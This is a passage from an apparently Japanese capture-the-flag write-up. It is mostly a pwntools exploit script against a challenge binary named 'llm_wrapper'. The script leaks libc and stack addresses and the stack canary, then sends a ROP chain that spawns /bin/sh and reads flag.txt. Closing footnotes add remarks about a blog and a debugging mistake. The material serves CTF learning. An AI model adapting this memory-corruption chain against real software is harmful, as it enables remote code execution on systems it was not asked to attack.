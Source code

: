 ```py
    success(f"{libc_base=:x}")
    assert not libc_base & 0xFFF

    environ = libc_base + 0x221200

    update(b"A" * 0x10 + p64(environ) + p8(8) + b"\n")
    buf = run()
    buf = buf[buf.find(b"with token ") + 12 :][:8]
    stack_base = s2u64(buf)
    success(f"{stack_base=:x}")

    canary_addr = stack_base - 0x190
    info(f"{canary_addr=:x}")
    update(b"AAAAAAAA" + p64(wriable_area) + p64(canary_addr) + p8(8) + b"\n")
    buf = run()
    buf = buf[buf.find(b"with token ") + 12 :][:8]
    canary = s2u64(buf)
    success(f"{canary=:x}")

    bin_sh = libc_base + 0x1D8698
    pop_rdi = libc_base + 0x172B79
    pop_rsi = libc_base + 0x173CF0
    pop_rax = libc_base + 0xD9AE2
    pop_rdx_rbx = libc_base + 0x174F96
    syscall = libc_base + 0x128ACA
    rbp = 0
    rop = (
        p64(pop_rdi)
        + p64(bin_sh)
        + p64(pop_rsi)
        + p64(0)
        + p64(pop_rdx_rbx)
        + p64(0)
        + p64(0)
        + p64(pop_rax)
        + p64(59)
        + p64(syscall)
    )
    update(b"\x00" * 0x38 + p64(canary) + p64(0) * 2 + p64(rbp) + rop + b"\n")

    fin()
    t.sendline(b"cat flag.txt")

    t.interactive()


local = 0
debug = 1
radare = 0

elf_name = "./llm_wrapper"
libc_name = "./libc.so.6"
remote_addr, remote_port = "vsc.tf 3756".split()
# remote_addr, remote_port = "127.0.0.1 60000".split()
elf: ELF = ELF(elf_name)
libc: ELF = ELF(libc_name)
script = """
b *0x004029b8
"""
t = create_io()
solve()
```


[^1]: このブログは全ページ全pwner読むべきだと思っています
[^2]: libcからTLSへのオフセットが一定だと思っていて、Master Canaryをleakしようとして1時間とかしました(ASLRをオフにしていただけ)